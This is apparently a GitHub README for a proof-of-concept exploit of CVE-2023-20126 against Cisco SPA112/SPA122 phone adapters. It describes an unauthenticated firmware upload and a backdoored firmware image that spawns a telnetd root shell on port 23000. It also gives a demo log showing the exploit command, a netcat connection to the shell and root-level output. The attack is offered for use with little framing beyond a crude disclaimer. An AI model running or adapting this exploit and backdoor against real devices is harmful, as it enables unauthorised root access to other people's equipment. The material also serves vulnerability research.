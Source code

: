 # RancidCrisco
Minimum Viable PoC for CVE-2023-20126

This is the initial release. It works, but its the 'simplest case' exploit.

Tested and working on SPA112/SPA122 - SPA232D requires a different firmware image. 

Gives a root-shell on port 23000/tcp.

I still need to clean up the toolchain used for editing the firmware and will probably put that in a different repo. It is mostly based on the work of @BigNerd95, but with minor alterations to work on the SPA112/122 firmware files.

## Demo.

```
$ python3 CVE-2023-20126.py http://192.168.0.152 CFW.bin 
Base URL: http://192.168.0.152
Firmware File: CFW.bin
Sending firmware update...
Firmware upgrade successful. Device will reboot eventually and be running the new FW.

< wait a few mins, nervously > 

$ nc -v 192.168.0.152 23000
Connection to 192.168.0.152 port 23000 [tcp/inovaport1] succeeded!
????????


BusyBox v1.10.2 (2019-10-14 12:41:41 CST) built-in shell (ash)
Enter 'help' for a list of built-in commands.

# id;uname -a;pwd
id;uname -a;pwd
uid=0(admin) gid=0(admin)
Linux SPA112 2.6.26.5 #1 PREEMPT Sun Sep 6 10:54:57 CST 2015 armv5tejl unknown
/
# cat /etc/version
cat /etc/version
router_major_version:1.4.1
router_minor_version:SR5
build_date:Mon Oct 14 12:48:12 CST 2019
build_version:6735
hardware_version:1.1.0
```

## Files

- fwupload.py - firmware image uploader that bypasses auth by simply not sending any, exploiting CVE-2023-20126. takes two arguments: URL of the devices Web UI, and firmware file to upload.
- telnet-23000.bin - Proof of Concept malicious firmware image that spawns `telnetd -l /bin/sh -p 23000`, giving a root shell on port 23000/tcp. Based on work by bignerd95.

## Licence
WTFPL.

## Bugs
use git issue. 

## Disclaimer
If this bricks your fucking device, I don't take any responsibility.   
That is YOUR problem.  
I mean, I hacked together that backdoored firmware in an evening.  
Also, why aren't you following the writeup and building your own backdoored firmware?  
